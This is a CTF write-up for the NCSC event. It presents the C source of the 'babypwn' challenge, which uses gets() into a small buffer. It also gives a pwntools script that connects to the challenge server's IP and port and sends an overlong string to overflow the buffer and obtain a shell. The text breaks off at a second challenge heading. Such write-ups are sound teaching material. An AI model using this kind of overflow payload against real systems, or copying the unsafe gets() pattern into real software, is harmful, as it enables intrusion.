 # National Cyber Security Congress

NCSC, organized by Securinets, hosted an 8 hours CTF, started the 29th of January at 23:00 (GMT +1). <br/>
I've participated in the CTF with [Aziz Zribi](https://www.facebook.com/Aziz.Zribi.Z), [Zakaria Soussi](https://www.facebook.com/zakaria.soussi.12) & [Anas Chaibi](https://www.facebook.com/chanas07) as a team. We ranked the 7th out of 52 teams.

<br/>
<hr>

* ### Binary exploitation

<ol type=1>
  <li>babypwn</li>
<br/>

That's a pretty basic challenge, here is the source code:
<details>
<summary>Show</summary>

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
void init_buffering() {
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stderr, NULL, _IONBF, 0);
}
int main(){
  int x = 0x41414141;
  char name[20];
  init_buffering(); // ignore this line
  puts("what's your name ?");
  gets(name);
  if(x != 0x41414141) {
    execve("/bin/sh", 0, 0);
  }
  return 0;
}
```
</details>
We only need to overwrite `x` value in memory so we can just send a payload long enough to overwrite it. Here is a script for this challenge:

<br/>
<details>
<summary>Show</summary>

```python
from pwn import *

# nc 52.188.108.186 1239
conn = remote('52.188.108.186',1239)

conn.send(b'azertyuiopqsdfghjklmwxcvbnaazzeerrttyyuuiiooppmmllkkjjhhggffddsqqwwxxccv' )

conn.interactive()
```
</details>
  
And we get our shell & flag.
  <li>Freedom</li>
</ol>
